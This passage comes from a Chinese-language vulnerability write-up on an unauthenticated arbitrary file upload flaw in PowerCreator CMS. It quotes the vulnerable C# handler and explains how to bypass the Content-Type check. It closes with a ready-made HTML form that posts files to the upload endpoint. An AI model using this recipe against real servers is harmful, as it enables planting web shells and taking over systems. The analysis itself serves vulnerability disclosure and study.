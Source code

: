 ```c#
                {
                    string newFileName = PowerCreator.MediaServer.PublicClass.Base64.Encode(rid) + ext;
                    file.SaveAs(Path + newFileName);
                    context.Response.Write(newFileName);
                }
            }
            else
            {
                context.Response.Write(-1);
            }
        }
        else
        {
            context.Response.Write("参数错误");
        }
        context.Response.End();
    }

    public bool IsReusable
    {
        get
        {
            return false;
        }
    }

}
```

代码逻辑及漏洞如图所示：

![20201104212911-b9c0d7d8-1ea1-1](./resource/PowerCreatorCms任意上传/media/20201104212911-b9c0d7d8-1ea1-1.png)

![20201104212921-bf728582-1ea1-1](./resource/PowerCreatorCms任意上传/media/20201104212921-bf728582-1ea1-1.png)

根据上面的分析，其实漏洞的关键点就是上传接口未授权访问可以直接进行上传操作，存在一个Content-Type为image/jpeg的判断，另外需要注意的是传递一个ResourceID变量才能成功进入到上传逻辑。

直接访问，没传递rid变量，回显参数错误，因此上传接口前面没有任何校验，可以直接进行文件上传操作

![20201104210127-d9de64b2-1e9d-1](./resource/PowerCreatorCms任意上传/media/20201104210127-d9de64b2-1e9d-1.png)

给rid变量赋个值，也即任意使用get方法或者post方法传递ResourceID变量，但是由于不存在文件上传操作，报文类型不符合multipart/form-data规范，因此返回-1

![20201104210302-12435cb8-1e9e-1](./resource/PowerCreatorCms任意上传/media/20201104210302-12435cb8-1e9e-1.png)

那么只要本地构造一个上传表单，在上传的时候将Content-Type改成image/jpeg，就可以进行任意文件上传，上传过后文件命会是ResourceID变量的值进行base64编码+上传文件的扩展名

本地构造表单

```html
<form action="http://xxx.xxx.xxx.xxx/upload/UploadResourcePic.ashx?ResourceID=1" enctype="multipart/form-data" method="POST">
<input type="file" class="file1" name="file1" />
<button type="submit" class="but1">上传</button>
</form>
```

